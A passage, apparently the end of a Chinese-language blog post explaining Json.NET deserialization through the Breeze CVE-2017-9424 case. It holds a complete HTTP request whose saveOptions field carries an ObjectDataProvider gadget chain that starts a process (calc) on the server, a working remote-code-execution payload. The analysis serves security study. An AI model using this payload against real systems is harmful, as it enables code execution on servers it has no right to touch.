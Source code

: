 将saveOptions修改为payload，弹出计算器

```http
POST /breeze/CarBones/SaveChanges HTTP/1.1
Host: php.local:34218
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json; charset=utf-8
Content-Length: 627

{
    "entities": [
        {
            "Id": 1,
            "Make": "Ford",
            "Model": "Mustanga",
            "entityAspect": {
                "entityTypeName": "Car:#CarBones.Models",
                "defaultResourceName": "Cars",
                "entityState": "Modified",
                "originalValuesMap": {
                    "Model": "Mustang"
                },
                "autoGeneratedKey": {
                    "propertyName": "Id",
                    "autoGeneratedKeyType": "Identity"
                }
            }
        }
    ],
    "saveOptions": {
        "Tag": {
            "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
            "ObjectInstance": {
                "$type": "System.Diagnostics.Process, System"
            },
            "MethodParameters": {
                "$type": "System.Collections.ArrayList, mscorlib",
                "$values": [
                    "calc"
                ]
            },
            "MethodName": "Start"
        }
    }
}
```

# 后文

本文讲解了json.net反序列化，并结合实际案例 breeze CVE-2017-9424深入理解。